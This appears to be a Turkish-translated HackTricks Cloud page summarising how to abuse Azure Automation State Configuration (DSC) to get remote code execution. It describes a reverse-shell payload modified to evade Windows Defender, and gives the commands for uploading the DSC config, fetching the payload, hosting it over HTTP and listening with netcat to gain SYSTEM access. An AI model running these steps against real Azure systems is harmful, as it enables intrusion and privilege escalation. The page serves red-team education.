 # Az - State Configuration RCE

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Tam gönderiyi kontrol edin:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Uzaktan Sunucu (C2) Altyapı Hazırlığı ve Adımlarının Özeti

#### Genel Bakış

Bu süreç, Windows Defender'ı atlatmak için tasarlanmış, `RevPS.ps1` adında değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak üzere uzaktan bir sunucu altyapısının kurulmasını içerir. Yük, IP'si `40.84.7.74` olan bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulmaktadır. İşlem birkaç adımda gerçekleştirilir:

#### Adım 1 — Dosyaları Oluşturma

* **Gerekli Dosyalar:** İki PowerShell betiğine ihtiyaç vardır:
1. `reverse_shell_config.ps1`: Yükü alıp çalıştıran bir İstenilen Durum Yapılandırması (DSC) dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) adresinden temin edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı VM'ye yayınlamak için bir betik, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1) adresinde mevcuttur.
* **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kullanıcıya özgü ortam için, kaynak adları, dosya yolları ve sunucu/yük tanımlayıcıları dahil olmak üzere özelleştirilmelidir.

#### Adım 2 — Yapılandırma Dosyasını Zip'leme

* `reverse_shell_config.ps1` bir `.zip` dosyasına sıkıştırılır, böylece Azure Storage Account'a transfer için hazır hale gelir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarla ve Yükle

* Sıkıştırılmış yapılandırma dosyası, Azure'un Set-AzStorageBlobContent cmdlet'ini kullanarak önceden tanımlanmış Azure Depolama konteyneri olan azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Kutusunu Hazırlama

* Kali sunucusu RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Script, hedef Windows VM ve ters shell için port belirtmek üzere düzenlenir.

#### Step 5 — Yapılandırma Dosyasını Yayınla

* Yapılandırma dosyası çalıştırılır ve ters shell scripti belirtilen konuma Windows VM üzerinde dağıtılır.

#### Step 6 — Payload'ı Barındır ve Dinleyici Kur

* Payload'ı barındırmak için bir Python SimpleHTTPServer başlatılır ve gelen bağlantıları yakalamak için bir Netcat dinleyicisi kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Planlı görev, yükü çalıştırarak SYSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde yürütülmesi, kimlik bilgisi dökümü veya saldırının birden fazla VM'ye genişletilmesi gibi daha fazla eylem için sayısız olasılık açar. Kılavuz, Azure Automation DSC alanında sürekli öğrenmeyi ve yaratıcılığı teşvik eder.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
